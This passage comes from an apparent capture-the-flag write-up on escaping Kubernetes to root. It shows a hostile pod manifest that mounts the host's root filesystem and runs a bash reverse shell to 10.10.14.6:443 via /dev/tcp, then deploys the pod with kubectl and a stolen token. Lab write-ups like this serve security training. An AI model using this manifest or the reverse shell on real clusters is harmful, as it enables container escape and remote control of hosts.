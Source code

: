 It’s treating `>` and `/tmp/a` as arguments for `cat`, not as redirection to a file. The `|` has the same issue.

#### Shell

At this point I was really close to giving up. The only path I see to getting a root shell is to write to the host file system, but nothing I could think of would let me. Then I remembered what I did in Unobtainium. There, I was launching the Alpine container, and if I didn’t give it a startup command, it would launch and immediately die. So I gave it a command:

```

    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]

```

I’ll create a `evil-pod2.yaml` that’s a copy of the one above, but this time, I’ll add a reverse shell as the command:

```

apiVersion: v1
kind: Pod
metadata:
  name: 0xdf-pod2
  namespace: default
spec:
  containers:
  - name: 0xdf-pod2
    image: nginx:1.14.2
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true

```

With `nc` listening, I’ll create the pod:

```

oxdf@hacky$ kubectl apply -f evil-pod2.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
pod/0xdf-pod2 created

```
